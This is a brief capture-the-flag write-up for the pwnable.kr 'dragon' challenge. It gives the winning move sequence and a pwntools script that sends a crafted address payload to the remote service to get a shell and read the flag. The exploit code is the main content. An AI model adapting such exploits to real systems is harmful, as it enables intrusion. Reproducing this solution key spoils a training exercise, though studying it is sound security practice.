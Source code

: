 Optimal way to win the game is this sequence of moves:
```python
optimal = [1,1,1,1,3,3,2,3,3,2,3,3,2,3,3,2]
```
```python
from pwn import *
elf = ELF("dragon")

binsh_str = list(elf.search("/bin/sh"))[0]
binsh_instr = list(elf.search(asm("mov dword ptr [esp], "+str(binsh_str))))[0]

payload = p32(binsh_instr)

shell = remote("pwnable.kr", 9004)
```
Win the game:
```python
for move in optimal: 
    shell.sendline(str(move))
```
And go to shell.
```python
shell.sendline(payload)
shell.sendline("cat flag")

shell.interactive()
```
